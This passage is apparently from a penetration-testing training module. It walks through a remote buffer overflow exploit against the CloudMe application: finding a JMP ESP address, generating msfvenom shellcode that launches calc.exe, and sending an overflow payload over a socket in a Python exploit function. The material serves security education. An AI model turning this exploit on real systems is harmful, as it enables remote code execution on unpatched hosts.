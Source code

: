 If we had not found any results, we could search for the `FFE4` pattern in the entire module or all modules, as was shown in an earlier section. We can also look for other useful instructions, like `54C3`. In our case, after double-clicking on the first result to ensure it is indeed `JMP ESP`, we can copy the address `0069D2E5` and use it in our exploit. (Try to find other instructions and use them as the return address).

***

### Jumping to Shellcode

Our final step is to exploit the program, so we'll start by creating our shellcode with `msfvenom` to open `calc.exe` as proof of successful exploitation:

&#x20; Building a Remote Exploit

```shell-session
root@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
...SNIP...
```

Now to create our final `exploit()` function, we'll first add the above output, and will use the same `payload` from our previous exploit (while changing `offset` and address in `eip`). Finally, we will use the same code from `bad_chars()` to send our payload to the port:

Code: python

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
    buf = b""
    ...SNIP...
    buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

    offset = 1052
    buffer = b"A"*offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

exploit()
```

Finally, we can run `CloudMe` (not necessarily in `x32dbg`) and run our exploit, and we should see it crash, and a calculator should pop open.
